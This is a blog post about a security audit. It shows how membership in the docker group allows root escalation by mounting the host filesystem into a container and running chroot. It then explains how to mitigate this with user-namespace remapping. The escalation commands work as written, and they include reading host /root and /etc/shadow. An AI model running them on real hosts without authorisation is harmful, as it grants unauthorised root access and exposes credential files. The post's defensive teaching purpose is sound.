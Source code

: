 +++
title = "Privilege escalation using Docker"
date = "2020-08-25"
author = "Aloïs Micard"
authorTwitter = "" #do not include @
cover = ""
tags = ["Docker", "Security", "Privilege Escalation"]
keywords = ["", ""]
description = "How to gain root access by using a Docker engine running with default configuration."
showFullContent = false
+++

This blog post is part of a series around [security](/tags/security) & [privilege escalation](/tags/privilege-escalation).

---

I have done a little security audit on a friend VPS last week, he was providing Docker runtime
to some people, with SSH access, and wanted to know if his setup was secure.

By default, docker only allow to run command as root user, in most case this is not desired since giving
root access equals giving full power over the host. A simple workaround is to add the user to the 'docker'
group so that the user will be able to dial with the docker socket. That's what my friend has done. But by default
this is **not secure at ALL**.

Let's see how to use the docker group to gain full root access on the host.

This method is really similar to the [lxc group privilege escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation),
and that's how I've come up with this one.

# Privilege escalation

The only thing I had on the VPS was an un-privileged user, like the
others users.

```sh
creekorful@docker01:~$ id
uid=1001(creekorful) gid=1001(creekorful) groups=1001(creekorful),998(docker)
```

Here we can see that we are in the docker group, so we can talk to the docker daemon.

To gain root access one the host, one can create a docker container and mount the host disk
inside it.

Let's try to display the files inside host /root:

```sh
creekorful@docker01:~$ docker run -it -v /:/mnt/root debian:stable-slim ls -altr /mnt/root/root
total 56
-rw-r--r--  1 root root   570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
drwx------  2 root root  4096 Mar 27 07:52 .ssh
drwx------  2 root root  4096 Mar 27 22:43 .docker
drwxr-xr-x  3 root root  4096 Mar 27 23:07 .local
drwx------  3 root root  4096 Jun  8 09:40 .config
drwxr-xr-x 18 root root  4096 Aug 23 20:14 ..
-rw-------  1 root root 14345 Aug 25 09:14 .viminfo
drwx------  6 root root  4096 Aug 25 09:14 .
-rw-r--r--  1 root root  5774 Aug 25 09:55 .bash_history
```

Since Docker has setuid bit set, we were able to mount the whole host disk
inside the /mnt/root partition (*-v /:/mnt/root*). And since we are root, we can list */root*.

Now let's try to mount again the host filesystem
and use [chroot](https://linux.die.net/man/1/chroot) to gain full privileges.

```sh
creekorful@docker01:~$ docker run -it -v /:/mnt/root debian:stable-slim chroot /mnt/root
# id
uid=0(root) gid=0(root) groups=0(root)
```

We now have full root access on the host.

# How to mitigate the exploit?

Fortunately solutions exist to prevent this exploit. I will cover the most straightforward one.

## Linux namespaces?

Linux has a [namespacing functionality](https://www.man7.org/linux/man-pages/man7/namespaces.7.html) use to
introduce the network, mount, user, ... isolation. Containerization (and therefore Docker) uses these to add security.

Basically each container will run into his own namespaces to isolate it from the host.

The process isolation is implemented using the [user namespace](https://www.man7.org/linux/man-pages/man7/user_namespaces.7.html).
User namespace allow to have a different user inside a namespace than the parent one. We can for example run as root
inside a namespace while being un-privileged.

Let's try this quickly:

```sh
root@test-vm:~# id
uid=0(root) gid=0(root) groups=0(root)
root@test-vm:~# unshare -U /bin/sh # create a namespace and execute /bin/sh inside it
$ id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
$ echo $$ # get current pid
29552
```

By running [unshare](https://man7.org/linux/man-pages/man1/unshare.1.html) I have spawn a /bin/sh process
detached from the user namespace (-U). We can see that I'm know running as nobody inside the namespace,
despite being root on the host.

Each unix process have a /proc/\<pid>/{u,g}id_map files.
These files are used to give a user/group ID mapping: we can say something like:

uid 0 in the current namespace is mapped to uid 1000 on the parent namespace. (0 1000 ...)

Let's try to give us an identity in our namespace.

```sh
root@test-vm:~#echo "1000 0 65536" > /proc/29552/uid_map
```

By issuing this command we will override the identity mapping of the namespace in the following way:
- uid in the namespace will start at 1000
- uid will be mapped in the parent namespace starting from 0
- the next 65536 uids will be mapped using this rule

So basically the first uid being assigned in the namespaced process will have uid 1000 and this will
correspond to uid 1000+0 = 1000 in the parent namespace.

Let's confirm that:

```sh
$ id
uid=1000(creekorful) gid=65534(nogroup) groups=65534(nogroup)
```

it works! we are now running as uid 1000 in the user namespace.

## Preventing from using root

So now that we know how the user namespace is working,
we'll see how to use that in our advantage. You just need to know that for Docker, 
each container will run in his own user namespace.

Let's inspect the user identity mapping of our container:

```sh
creekorful@docker01:~$ docker run -it -v /:/mnt/root debian:stable-slim chroot /mnt/root
# cat /proc/self/uid_map
         0          0 4294967295
```

This file tells us: uid 0 for current namespace is mapped to parent uid 0, and it's the same up to uid 4294967295.
So being root in the container = being root on the host.

What we will do to mitigate the exploit is to map container uid 0 to something non-root (!= 0) on the host (the parent namespace), 
fortunately this can be done easily by using /etc/sub{g,u}id [files](https://www.man7.org/linux/man-pages/man5/subuid.5.html).

```sh
creekorful@docker01:~$ cat /etc/sub{g,u}id
debian:100000:65536
creekorful:165536:65536
debian:100000:65536
creekorful:165536:65536
...
```

These files are used to determinate the allowed range of sub {user,group} ID allowed to use by the user.
The format is: *<user>:<sub{g,u}id>:<sub{g,u}id count>*

So what we will do is add an *dockremap* (special docker user) entry to these files, and limit the sub{g,u}id of this user.

I have asked my friend to perform the following:

Add the dockremap entry to the /etc/subuid file:

```
root@docker01:~# echo 'dockremap:100:65536' >> /etc/subuid
```

By doing this we are saying: root inside the container (0) will be mapped to uid (100) in the parent namespace (on the host).

Now we must ask docker to create the container using the *dockremap* user.
This can be done by modifying /etc/docker/daemon.json

```json
{
  "userns-remap": "default"
}
```

(Default means use dockremap user).

And finally, just restart the docker daemon to apply the changes.

```sh
root@docker01:~# systemctl restart docker
```

# Let's try again

```sh
creekorful@docker01:~$ docker run -it -v /:/mnt/root debian:stable-slim /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

As we can see we are still root inside the container. But what's for the outside?

```sh
# cat /proc/self/uid_map
         0        100      65536
```

the uid is now 100 instead of 0. We are no more root (our user id on the host is now 0+100=100).

Let's try to check the content of /etc/shadow to make sure it's working:

```sh
# cat /mnt/root/etc/shadow
cat: can't open '/mnt/root/etc/shadow': Permission denied
```

the exploit is now mitigated.

Happy hacking!
